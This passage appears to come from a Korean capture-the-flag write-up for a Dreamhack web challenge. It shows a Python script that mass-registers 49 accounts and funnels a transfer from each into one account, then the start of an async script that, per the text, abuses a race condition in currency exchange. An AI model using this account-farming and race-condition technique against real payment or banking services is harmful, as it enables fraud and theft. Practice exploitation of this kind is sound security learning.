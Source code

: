 ```py
    "challenge": "/user/reset/challenge",
    "signup": "/user/signup",
    "signin": "/user/signin",
    "signout": "/user/signout",
    "krwCreate": "/cash/krw/bank/create",
    "usdCreate": "/cash/usd/bank/create",
    "exchange": "/cash/exchange",
    "krw_getBalance": "/cash/krw/getBalance",
    "usd_getBalance": "/cash/usd/getBalance",
    "krw_transfer": "/cash/krw/transfer"
}

headers = {
    'Content-Type': 'application/x-www-form-urlencoded',
}

if __name__ == "__main__":
    session = requests.session()

    for i in range(49):
        name = f"test{i}"
        data = {
            "username": f"{name}",
            "password": "testtest",
            "email": f"{name}@test.com",
            "realName": f"{name}",
            "regNumber": "980319123456789",
            "memo": f"{name}",
            "countryCode": "82"
        }
        session.post(url+API['signup'], data = data, headers = headers)

        data = {
            "username": f"{name}",
            "password": "testtest"
        }
        session.post(url+API['signin'], data = data, headers = headers)

        data = {
            "accNumber": "e6f19bf1-2ddb-4798-9027-acc147b0f981",
            "amount": "10000"
        }
        session.post(url+API['krw_transfer'], data = data, headers = headers)

        session.get(url+API['signout'], headers=headers)
```

이후 race-condition 취약점을 통해 환전을 반복하며 금액을 100만원까지 불렸다:
```py
#! C:\Python39\python.exe

import aiohttp
import asyncio
import requests
import re
import math

url = "http://host3.dreamhack.games:17123"

API = {
    "mypage": "/api/user/mypage/",
    "reset": "/user/reset/",
    "password": "/user/reset/password/",
    "challenge": "/user/reset/challenge",
```
